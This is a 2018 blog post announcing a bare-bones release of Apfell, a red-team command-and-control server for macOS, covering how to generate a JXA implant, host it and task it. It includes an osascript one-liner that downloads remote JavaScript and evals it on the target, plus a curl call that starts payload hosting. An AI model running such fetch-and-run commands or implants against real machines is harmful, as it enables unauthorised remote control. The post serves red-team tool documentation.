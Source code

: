 ```yaml
---
title: 'Bare-Bones Apfell server code release'
date: 2018-07-04
permalink: /posts/2018/07/bare-bones-apfell-server-code-release/
tags:
  - Mac
  - Red Teaming
  - Database
  - Postgres
  - Web
---
```

It's been a long time since my last post, but it's finally time for the bare-bones Apfell server code release. There will also be a drop of a bare-bones Apfell implant to go with it and an accompanying blog series coming soon talking about design decisions, future ideals, and updates.

I've added a few more components to the bare-bones release to round it out and make it at least somewhat usable. Specifically:
*  Payloads - JXA
   *  I created the ability to use the base JXA template, swap in your own callback interval and server/port
*  Attacks - Host File
   *  I created the ability for the server to spin off python subprocesses to host files with user defined directories and ports to server up the JXA implants
*  API - CommandLines
   *  I created a relatively simple way to display examples command lines and explanations for the RESTful interfaces exposed by the server
*  API - apfell-jxa help
   *  I added in a little bit of information about the different basic commands available in the jxa implant and what the differences are
   
Before I post the link for the apfell code, we should take one more walkthrough for how information flows between all the components.

You can pip install the requirements.txt document to get all of the necessary python libraries, then run the setup.sh script to install and setup the postgresql database.
Inside of the main \_\_init\_\_.py file, you'll find a few things for you to customize. Specifically, the db_user, db_pass, and server_ip address should all be updated for your environment.
Then, simply run `python server.py` and you're up and running!

Open up a browser and navigate to the ip:port you just specified. You won't have an account yet, so click `Click to Register!` and create an account. When you log in, you'll be welcomed by a screen like the following:
![alt text][apfell-welcome-screen]

Click over to payloads and JXA (this is currently the only payload available, but there will be more coming soon). Obfuscation is an example of something that's hopefully coming soon, but right now that checkbox does nothing. Fill out all of the fields and click `Create Payload` to create your first apfell-jxa payload.
Specify the callback host and port to be where you will be calling back to (can be this server or a redirector). Don't worry about hosting it yet, we'll do that part next. I give you three possibilities for how to execute the file depending on how you plan on getting the payload over to the remote system. 
Apfell is a post-exploit system, so it's up to you to find the initial access vector, then you can start using this.
![alt text][apfell-create-jxa]

The next main step is to host this file somewhere. I have a lot of ideas for how to display this information and save it off, but it's not required for the initial bare-bones release. If you go to `Attacks-Host File`, you'll just see some basic information. The main way to work with this right now is through the RESTful API.
For our example, we already have Apfell running on port 80, so lets host this file on port 8080. It's pretty simple with the RESTful API:

`appy@ubuntu:~$ curl -X POST -d '{"port":8080, "directory": "/home/appy/Desktop/"}' http://localhost/api/v1.0/attacks/host_file`

We can confirm this is running either with another query or from the browser by hitting the API:
![alt text][apfell-view-web-servers]

Now, we can go over to the target macOS box, open up the Terminal.app, and run the following code:
`osascript -l JavaScript -e "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('HTTP://192.168.0.119/example.js')),$.NSUTF8StringEncoding)));"`

Now you can click over to `Operations -> Callbacks` and see our new callback!
![alt text][apfell-new-callback]

click on `Interact` to have a new tab pop up that you can select. You'll also notice when you select this tab that the box at the very bottom of the screen changed to reflect the information about the current tab. This is where you can submit tasks for the apfell-jxa implant.
For example, we can do a few different kinds of tasks, and they will illustrate the output format for us:
![alt text][apfell-tasking]

There are three types of operations for the current apfell-jxa implant - shell commands, javascript commands, and deepunwrapped javascript commands (these are the ones utilizing the ObjectiveC-JavaScript bridge). The last one is potentially the most powerful, but also the most confusing.
Using the ObjectiveC bridge, I called and ObjectiveC function to get the current list of names my host has. The `js` command can also run these commands, but if the resulting type is an ObjectiveC type, you'll have issues getting anything back. The unwrap (or deepunwrap) capabilities allows us to change standard datatypes
back from the ObjectiveC world to the normal world.

When you're done working with an implant, you can task it to exit and remove it from your screen. When you do this, I mark the implant as no longer active, but I keep it in the database. I do this so that when I write a report-generating feature, you'll still have all the info from all of the implants spawned during an operation, but you don't need to leave them cluttering up your view.
If you simply click the `Hide Tasks` option for an implant, all that does is hide the bottom level tab from your view so things are a little cleaner. 
`Keystrokes` and `Screenshots` are currently placeholders, but are on my laundry list of things to add to the next release.

If you want information on the RESTful command-line interactive capability of Apfell, go to `API -> CommandLines`. 
![alt text][apfell-api-cli]

Lastly, there's a little bit of documentation on the three commands for apfell-jxa that I already mentioned under the `API -> apfell-jxa help` dropdown.

Like I said, this is a pretty bare-bones release, but illustrates everything working together through the process of making a working framework.
Now, that was the UI and a little bit of the RESTful interface, but how does the information actually flow for all of that? It seems like a lot of moving pieces based on what I covered in the previous blog posts, but it's not too crazy.

When the implant initially calls home, it sends a RESTful HTTP POST request to the server with some basic information. This information is then stored in the postgres database. If you don't have the browser open, the process stops there until you manually query it with the other RESTful APIs.
If you do have the browser open though, when you go to the `Operations -> callbacks` page, you're opening a few websockets back to the database and requesting all of the relavent information about the current callbacks, and asking to be notified if there are any updates. 
When you do get a new callback, a callback checks for new tasking, or some status on your callback changes, this information gets pushed asynchronous from the database through the web server up to your browser. This same process happens with any tasking and responses. You can then interact with the dynamically generated information for that callback in the browser.
When you want to task the implant, your commands are actually just RESTful queries back to the server, which saves the information in the database. Two things now happen:
*  There was a change in the database, so that change is pushed back up to your browser. This means that I purposefully don't immediately display your tasking to you. I wait until it's confirmed by the database. I do this because of this next part.
*  Now that your tasking is in the database, the next time the implant checks in, it'll get that tasking and set the status of the task to in progress. This way you're only seeing what's registered in the database. This helps keep everybody on the same page with each other and the implants.

I didn't want a scenario when it looks like you task something on your screen, but somehow the connection to the server is dead. You'll only see the tasking if it's to the point where the implant can actually see it. Similarly, I keep track of the progress of tasking via the RESTful APIs. I don't display this to the user since it might be a bit much, but if you query the tasks via the API, you'll see that their status is either `submitted`, `processing`, or `completed`. 

See, not too crazy. The hardest part for me to learn has been all of the web aspects. I've never done web programming before, so trying to make sure that the interfaces you see for the callbacks is all dynamically generated and updated in real time without having to refresh has been an interesting challenge.
One of the next big things for me to tackle is getting proper authentication and encryption throughout the process. Since this was all new to me, I wanted to make sure I could get the basics down before starting to add complexity.


[apfell-welcome-screen]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-welcome-screen.JPG "Apfell Welcome Screen"
[apfell-create-jxa]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-create-jxa.JPG "Apfell Create JXA Payload"
[apfell-view-web-servers]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-view-web-servers.JPG "Apfell View Web Servers"
[apfell-new-callback]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-new-callback.JPG "Apfell New Callback"
[apfell-tasking]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-tasking.JPG "Apfell Tasking"
[apfell-api-cli]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-api-cli.JPG "Apfell API CLI Examples"
